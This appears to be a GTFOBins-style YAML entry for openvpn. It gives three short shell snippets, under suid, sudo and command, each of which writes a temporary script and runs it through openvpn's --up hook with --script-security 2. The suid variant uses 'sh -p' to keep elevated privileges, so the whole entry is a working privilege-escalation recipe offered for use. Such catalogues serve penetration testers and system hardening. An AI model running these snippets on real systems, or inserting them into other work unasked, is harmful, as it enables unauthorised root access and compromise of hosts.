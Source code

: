 ```yaml
---
functions:
  suid:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo '#!/usr/bin/env -S sh -p' > $TF
        echo "$COMMAND" >> $TF
        chmod +x $TF
        openvpn --dev tun0 --script-security 2 --up $TF
  sudo:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo '#!/usr/bin/env sh' > $TF
        echo "$COMMAND" >> $TF
        chmod +x $TF
        sudo openvpn --dev tun0 --script-security 2 --up $TF
  command:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo '#!/usr/bin/env sh' > $TF
        echo "$COMMAND" >> $TF
        chmod +x $TF
        openvpn --dev tun0 --script-security 2 --up $TF
---
```

